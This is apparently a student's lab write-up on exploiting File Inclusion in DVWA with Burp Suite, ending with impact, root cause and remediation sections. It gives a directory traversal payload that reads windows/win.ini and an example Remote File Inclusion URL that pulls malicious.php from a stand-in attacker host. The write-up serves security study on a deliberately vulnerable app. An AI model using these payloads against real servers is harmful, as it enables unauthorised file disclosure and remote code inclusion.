








# File Inclusion Vulnerability Assessment using DVWA

## Introduction

During this lab, I explored the File Inclusion vulnerability available in DVWA (Damn Vulnerable Web Application). The purpose of this exercise was to understand how a web application can become vulnerable when user-controlled input is directly used to include files on the server.

File Inclusion vulnerabilities can allow an attacker to access unintended files and, in some cases, execute malicious code. This lab helped me understand both the intended functionality of file inclusion and the security risks that arise when proper validation is not implemented.

---

## Objective

The objectives of this lab were:

- Understand how file inclusion works in web applications.
- Identify the parameter responsible for loading files.
- Complete the DVWA challenge by reading the quotes stored in `fi.php`.
- Demonstrate Local File Inclusion (LFI) by accessing a system file.
- Analyze requests and responses using Burp Suite.

---

## Lab Environment

| Component | Value |
|------------|---------|
| Application | DVWA |
| Security Level | Low |
| Operating System | Windows |
| Testing Tool | Burp Suite Community Edition |
| Browser | Google Chrome |

---

# Understanding File Inclusion

Many web applications dynamically load pages using URL parameters.

For example:

```text
?page=file1.php
```

In this case, the application reads the value of the `page` parameter and loads the corresponding file.

If the application does not properly validate user input, an attacker may be able to manipulate this parameter to access files that were never intended to be exposed.

There are two common types of File Inclusion vulnerabilities:

## Local File Inclusion (LFI)

The attacker includes files that already exist on the target server.

Example:

```text
?page=../../../../../../windows/win.ini
```

## Remote File Inclusion (RFI)

The attacker includes files from an external server.

Example:

```text
?page=http://attacker-site.com/malicious.php
```

In modern environments, RFI is often disabled, while LFI remains a common vulnerability.

---

# Step 1: Accessing the File Inclusion Module

After logging into DVWA and setting the security level to Low, I navigated to the File Inclusion section.

The page explained the concepts of Local File Inclusion (LFI) and Remote File Inclusion (RFI), along with the challenge objective.

## Screenshot



---

# Step 2: Identifying the Vulnerable Parameter

The application loaded different pages using the URL parameter:

```text
?page=file1.php
```

This immediately indicated that the `page` parameter controlled which file would be included by the application.

## Screenshot



---

# Step 3: Verifying Normal Functionality

To understand how the application worked, I switched between the available files such as:

```text
?page=file1.php
?page=file2.php
?page=file3.php
```

Each file displayed different content, confirming that the application was dynamically including files based on user input.

## Screenshot



---

# Step 4: Completing the DVWA Challenge

The objective provided by DVWA was to retrieve the quotes stored in:

```text
../hackable/flags/fi.php
```

I modified the URL parameter to include the target file.

Example:

```text
?page=../hackable/flags/fi.php
```

## Screenshot


---

# Step 5: Retrieving the Quotes

After successfully including the file, the application displayed the quotes stored within `fi.php`.

This confirmed that arbitrary files within the application directory could be accessed through the vulnerable parameter.

## Screenshot



---

# Step 6: Testing for Local File Inclusion (LFI)

After completing the DVWA objective, I wanted to understand the real security impact of the vulnerability.

Since the lab environment was running on Windows, I attempted to access the system file:

```text
?page=../../../../../../windows/win.ini
```

The payload uses directory traversal (`../`) to move outside the current application directory and access a sensitive operating system file.

## Screenshot



---

# Step 7: Confirming File Disclosure

The application successfully displayed the contents of the Windows `win.ini` file.

This confirmed the presence of a Local File Inclusion vulnerability.

Access to system files can expose sensitive information about the server configuration and operating system.

## Screenshot



---

# Step 8: Capturing the Request in Burp Suite

To analyze the attack more closely, I intercepted the request using Burp Suite.

The request clearly showed the user-controlled `page` parameter containing the LFI payload.

## Screenshot



---

# Step 9: Analyzing the Response

The request was forwarded to Burp Repeater and executed.

The response contained the contents of the targeted file, confirming successful exploitation.

## Screenshot



---

# Impact of the Vulnerability

If this vulnerability existed in a real-world application, an attacker could potentially:

- Access sensitive configuration files.
- Read application source code.
- Gather information about the server.
- Discover credentials stored in files.
- Combine LFI with other vulnerabilities for further compromise.

The severity of File Inclusion vulnerabilities depends on the files that can be accessed and the overall server configuration.

---

# Root Cause

The vulnerability exists because the application directly uses user-supplied input when including files.

The application does not:

- Validate file names.
- Restrict access to approved files.
- Block directory traversal sequences such as `../`.

As a result, attackers can manipulate the path and access unintended files.

---

# Remediation

The following measures can help prevent File Inclusion vulnerabilities:

1. Use an allowlist of approved files.
2. Validate all user input.
3. Block directory traversal sequences.
4. Avoid directly including files based on user input.
5. Implement proper access controls.
6. Log and monitor suspicious requests.

---

# Conclusion

This lab demonstrated how insecure file inclusion mechanisms can expose sensitive files on a server. By manipulating the `page` parameter, I was able to complete the DVWA challenge and further demonstrate a Local File Inclusion vulnerability by accessing a Windows system file.

The exercise provided practical experience in identifying vulnerable parameters, exploiting file inclusion flaws, and analyzing traffic using Burp Suite. Understanding these vulnerabilities is important for both security testing and secure application development.